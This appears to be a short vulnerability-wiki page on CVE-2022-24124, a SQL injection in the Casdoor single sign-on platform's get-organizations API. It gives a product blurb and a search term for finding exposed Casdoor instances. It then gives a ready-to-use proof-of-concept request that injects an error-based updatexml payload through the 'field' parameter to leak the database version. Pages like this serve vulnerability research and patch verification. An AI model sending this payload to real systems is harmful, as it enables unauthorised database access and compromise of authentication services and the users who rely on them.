 # Casdoor get-organizations SQL injection vulnerability CVE-2022-24124

## Vulnerability Description

Casdoor is a UI-first centralized authentication/single sign-on (SSO) platform based on OAuth 2.0 / OIDC. Simply put, Casdoor can help you solve the problems of user management. You don’t need to develop a series of functions related to user authentication, such as user login registration. You only need a few steps, simple configuration, and cooperate with your main application to fully host your user module, which is simple and worry-free and powerful.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Casdoor </a-checkbox>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Casdoor"</a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651897068786-ebc3e112-d492-4adf-944a-1941f0f1f0f9.png)

Verify POC

```java
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(null,version(),null)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651897172319-3ccd1bce-7913-4731-aba6-a5cf2f0dc610.png)